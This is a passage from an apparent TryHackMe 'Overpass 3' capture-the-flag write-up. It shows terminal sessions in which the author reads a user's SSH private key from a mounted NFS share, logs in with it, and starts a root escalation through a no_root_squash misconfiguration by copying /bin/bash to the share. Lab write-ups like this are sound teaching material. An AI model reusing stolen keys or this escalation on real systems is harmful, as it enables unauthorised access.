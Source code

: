 The next thing that we can find the private key from the user `james`:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ ls -al /mnt/.ssh 
total 12
drwx------ 2 kali kali   61 Nov  7  2020 .
drwx------ 3 kali kali  112 Nov 17  2020 ..
-rw------- 1 kali kali  581 Nov  7  2020 authorized_keys
-rw------- 1 kali kali 2610 Nov  7  2020 id_rsa
-rw-r--r-- 1 kali kali  581 Nov  7  2020 id_rsa.pub
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ cat /mnt/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----

[...]

-----END OPENSSH PRIVATE KEY-----
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ 
```

We can copy the key to our system and login as `james`:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ cp /mnt/.ssh/id_rsa .                                   
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ ls -al          
total 48
drwxr-xr-x  4 kali kali  4096 Sep 14 11:13 .
drwxr-xr-x 21 kali kali  4096 Sep 13 11:58 ..
drwxr-xr-x  3 kali kali  4096 Sep 13 16:27 backup
-rw-r--r--  1 kali kali 13353 Sep 13 12:23 backup.zip
-rw-------  1 kali kali   419 Sep 14 09:18 id_ed25519
-rw-------  1 kali kali  2610 Sep 14 11:13 id_rsa
drwxr-xr-x  2 kali kali  4096 Sep 13 12:15 nmap
-rwx------  1 kali kali  5493 Sep 14 09:12 php-reverse-shell.php
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/tryhackme/overpass3]
└─$ ssh -i id_rsa james@$IP                                 
Last login: Wed Nov 18 18:26:00 2020 from 192.168.170.145
[james@localhost ~]$ 
```

### Escalate to root
At this point the `no_root_squash` comes into play. As `james` we copy the bash binary into our home, which is also the share:
```
[james@localhost ~]$ cp /bin/bash .
[james@localhost ~]$ ls -al 
total 1208
drwx------. 3 james james     124 Sep 14 16:26 .
drwxr-xr-x. 4 root  root       34 Nov  8  2020 ..
-rwxr-xr-x  1 james james 1219248 Sep 14 16:26 bash
lrwxrwxrwx. 1 root  root        9 Nov  8  2020 .bash_history -> /dev/null
-rw-r--r--. 1 james james      18 Nov  8  2019 .bash_logout
-rw-r--r--. 1 james james     141 Nov  8  2019 .bash_profile
-rw-r--r--. 1 james james     312 Nov  8  2019 .bashrc
drwx------. 2 james james      61 Nov  8  2020 .ssh
-rw-------. 1 james james      38 Nov 17  2020 user.flag
[james@localhost ~]$ 
```
